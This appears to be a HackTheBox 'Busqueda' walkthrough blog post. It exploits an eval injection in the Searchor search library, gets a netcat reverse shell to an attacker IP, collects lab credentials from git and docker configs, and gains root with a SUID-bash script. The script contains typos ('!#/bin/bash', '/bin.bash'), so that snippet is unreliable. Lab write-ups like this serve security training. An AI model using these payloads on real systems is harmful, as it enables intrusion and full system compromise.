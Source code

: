 ```yaml
---
layout: post
title: "HTB: Busqueda"
author: Andrew Cherney
date: 2023-08-12 16:14:08
tags: htb easy-box linux webapp python 
icon: "assets/icons/busqueda.png"
post_description: "Much like RedPanda this box starts with exploiting a search engine. I hope your python is up to the test. Next we look for an exploit using docker inspect to get into a git repo and gain access to private scripts running on the machine, which are then exploited for root."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h2>Enumeration</h2>

<h3>nmap</h3>

```
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Busqueda]
└──╼ $nmap -sC 10.10.11.208
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-14 16:34 CDT
Nmap scan report for 10.10.11.208
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://searcher.htb/
```

```bash
echo '10.10.11.208 searcher.htb' >> /etc/hosts
```

<h3>Port 80 - http</h3>

![front page](/img/busqueda/front_page.png)

![/search](/img/busqueda/search.png)

This page appears to be a universal searcher where you specify a platform and it returns a web address which you can enter as an address to perform your search. The endpoint that you are redirected to is **/search**. Now I've already got a small lead from the footer of the front page. This is run in Flask and using the [Searchor github repo](https://github.com/ArjunSharda/Searchor).

<h2>User as svc</h2>

<h3>Python Code Escape</h3>

If I skim that repo I can find that the basic functionality of this site is to use that repo to search various sites and return the url for that search. The cursory search of vulnerabilities for this repo turn up [this arbitrary code execution on version 2.4.2](https://security.snyk.io/package/pip/searchor/2.4.0). The crux is our old friend improper eval usage as seen below:

```python
url = eval(
    f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)
```

Commonly a way to escape python code through the eval function is to import os and use popen to run commands. Let's see what comes from that.

```
'+__import__("os").popen("id").read()+'
https://www.google.com/maps/search/uid%3D1000%28svc%29%20gid%3D1000%28svc%29%20groups%3D1000%28svc%29%0A
```

It works! Now I replace id with a reverse shell and gain my foothold.

```
'+__import__("os").popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.9 7777 >/tmp/f").read()+'
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Busqueda]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.208] 50910
bash: cannot set terminal process group (1641): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ whoami
whoami
svc
svc@busqueda:~$ cat user.txt
cat user.txt
113ea983d7b15-------------------
```

<h2>Root</h2>

<h3>Git Config</h3>

I run a linpeas and it throws off some interesting information. Firstly the **/home/svc/.local/bin** directory is in the path environment variable. If there is a script or command that runs another command or script from one of the path directories I can intercept that request and run my code as whatever user runs the script/command calling it (ideally root). Other basic things include DirtyPipe, Pwnkit, sudo Baron Samedit 1 and 2, and Netfilter heap out-of-bounds write. 

Before looking into any of those there are two .git directories:

```
drwxr-x--- 8 root root 4096 Apr  3 15:04 /opt/scripts/.git
drwxr-xr-x 8 www-data www-data 4096 May 14 18:08 /var/www/app/.git
```

I have access to the one inside of /var/www/app, so I'll crack open that juicy config file and see what we have. 

```
svc@busqueda:/var/www/app/.git$ cat config 
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

Oh sweet wompums look at that password **jh1usoih2bkjaspwe92**. Now I can toss out a **sudo -l** to see what our user "cody" can do as root. 

```bash
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

<h3>Gitea</h3>

```bash
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   4 months ago   Up 8 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   4 months ago   Up 8 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Two things pop out here, one is that here is a mysql database for a locally running webpage, and the other is that there is some other hosted site that we might be able to enumerate. Luckily inside of /etc/hosts on this machine I found **gitea.searcher.htb**. In retrospect the credentials for cody also mentioned this subdomain. 

![gitea page](/img/busqueda/gitea.png)

![gitea login](/img/busqueda/gitea_login.png)

![cody gitea](/img/busqueda/cody_gitea.png)

It seems we have another user for this specific service named administrator. Those credentials are certainly inside of the mysql database listed with our sudo access. Now all we need to do is figure out how to interact with that database. 

{% raw %}

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect gitea
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --'{{.Config.Image}}' gitea
--gitea/gitea:latest
```

I found a basic use case [for the command here](https://docs.docker.com/engine/reference/commandline/inspect/), it pretty closely follows the regular docker inspect command. At the bottom of that page is the payload <code>docker inspect --format='{{json .Config}}' $INSTANCE_ID</code> and I intend to see if that works.

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --'{{json .Config}}' gitea
--{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

{% endraw %}

Oh hey it did work. And if you squint hard enough you can make out the administrator password is **yuiu1hoiu4i5ho1uh**. 

![admin gitea](/img/busqueda/admin_gitea.png)

![scripts repo](/img/busqueda/scripts_repo.png)

And would you look at that cool scripts directory with identical scripts to the /opt/scripts directory on the machine. Taking a small peek at one of the scripts that didn't work when I tried is I find my ticket to root. 

<h3>Code Exploitation</h3>

```python
elif action == 'full-checkup':
    try:
        arg_list = ['./full-checkup.sh']
        print(run_command(arg_list))
        print('[+] Done!')
    except:
        print('Something went wrong')
        exit(1)
```

Checking the full-checkup option of the code I can run as sudo I see that the option only checks for a local file then runs it as root. I can make the file modify /bin/bash to be an suid and then I will obtain root. 

```bash
!#/bin/bash
chmod +s /bin.bash
```

```bash
svc@busqueda:~$ nano full-checkup.sh 
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
c0c2d4933301--------------------
```
